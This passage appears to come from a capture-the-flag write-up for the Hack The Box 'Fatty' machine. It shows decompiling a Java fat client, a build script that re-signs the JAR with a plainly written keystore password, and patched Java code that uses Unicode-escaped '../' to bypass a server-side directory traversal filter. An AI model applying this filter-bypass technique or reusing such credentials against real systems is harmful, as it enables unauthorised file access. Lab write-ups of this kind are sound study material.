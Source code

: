 {% include image.html image_alt="8b53c34a.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/8b53c34a.png" %}

If all goes well, we should be able to connect to the fatty server.

{% include image.html image_alt="abab1c23.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/abab1c23.png" %}

### Decompiling the Fat Client

It was after decompiling `fatty-client.jar` with `jd-gui` that I found the keystore password to the actual `fatty.p12`

{% include image.html image_alt="439a2047.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/439a2047.png" %}

### Exploiting the Fat Client

Long story short. I noticed a directory traversal vulnerability with the file open feature of the fat client.

{% include image.html image_alt="b8ecfba2.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/b8ecfba2.png" %}

Opening a non-existent file exposes the current folder. Attempt to prepend `../` to the file name is filtered by the backend server.

{% include image.html image_alt="70db5c94.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/70db5c94.png" %}

Good thing I have the entire JAR file decompiled by `jd-gui`. I can edit any of the three `JMenuItem` objects, namely, "Configs", "Notes", and "Mail", to `\u002e\u002e/`, which is the escaped Unicode characters for "`../`". I know I'm going to modify the Java source code quite a bit, so I wrote a simple shell script to help build the JAR file.

<div class="filename"><span>build.sh</span></div>

```
#!/bin/bash

rm fatty-client.jar
jar cvmf META-INF/MANIFEST.MF fatty-client.jar *
jarsigner -keystore fatty.p12 -storepass secureclarabibi123 fatty-client.jar 1
```

Edit this part of `htb/fatty/client/gui/ClientGuiTest.java` as follows:

~~~~java
/* 368 */     configs.addActionListener(new ActionListener()
/*     */         {
/*     */           public void actionPerformed(ActionEvent e) {
/* 371 */             String response = "";
/* 372 */             //ClientGuiTest.this.currentFolder = "configs";
/* 372 */             ClientGuiTest.this.currentFolder = "\u002e\u002e/";
/*     */             try {
/* 374 */               //response = ClientGuiTest.this.invoker.showFiles("configs");
/* 374 */               response = ClientGuiTest.this.invoker.showFiles("\u002e\u002e/");
/* 375 */             } catch (MessageBuildException|htb.fatty.shared.message.MessageParseException e1) {
/* 376 */               JOptionPane.showMessageDialog(controlPanel, "Failure during message building/parsing.", "Error", 0);
/*     */
/*     */
/*     */             }
/* 380 */             catch (IOException e2) {
/* 381 */               JOptionPane.showMessageDialog(controlPanel, "Unable to contact the server. If this problem remains, please close and reopen the client.", "Error", 0);
/*     */             }
/*     */
~~~~